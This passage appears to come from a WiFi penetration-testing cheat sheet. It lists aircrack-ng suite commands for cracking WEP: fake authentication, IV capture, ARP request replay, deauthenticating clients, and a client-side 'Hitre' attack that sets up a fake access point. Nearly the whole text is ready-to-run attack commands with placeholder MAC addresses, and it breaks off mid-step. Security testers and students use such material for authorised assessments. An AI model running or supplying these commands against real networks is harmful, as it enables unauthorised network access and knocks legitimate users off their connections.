 ```fundamental
aireplay-ng --fakeauth 6000 -o 1 -q 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF -h FF:FF:FF:FF:FF:FF
```

If MAC address filtering is active, do the fake authentication to a WiFi network with an existing MAC address:

```fundamental
aireplay-ng --fakeauth 0 wlan1 -e essid -a FF:FF:FF:FF:FF:FF -h FF:FF:FF:FF:FF:FF
```

To monitor the number of captured IVs, run `airodump-ng` against a WiFi network and watch the `#Data` column (try to capture around 100k IVs):

```fundamental
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

Start the standard ARP request replaying against a WiFi network:

```fundamental
aireplay-ng --arpreplay wlan1 -e essid -a FF:FF:FF:FF:FF:FF -h FF:FF:FF:FF:FF:FF
```

\[Optional\] Deauthenticate clients from a WiFi network:

```fundamental
aireplay-ng --deauth 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

Crack the WEP authentication:

```fundamental
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF replay_arp*.cap
```

## Hitre Attack

This attack targets clients, not wireless access points. You must know the SSIDs of your target's WiFi networks.

\[Optional\] Set up a fake WEP WiFi network if the real one is not present:

```fundamental
airbase-ng -W 1 -N wlan0mon -c 8 --essid essid -a FF:FF:FF:FF:FF:FF
```

If needed, turn up the power of a wireless network interface to missassociate clients to the fake WiFi network, see how in [1. Configuration](#1-configuration).

Monitor the real/fake WiFi network to capture handshakes/requests:

```fundamental
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

Start replaying packets to clients within your range:

```fundamental
aireplay-ng --cfrag -D wlan1 -e essid -h FF:FF:FF:FF:FF:FF
```

\[Optional\] Deauthenticate clients from the real/fake WiFi network:
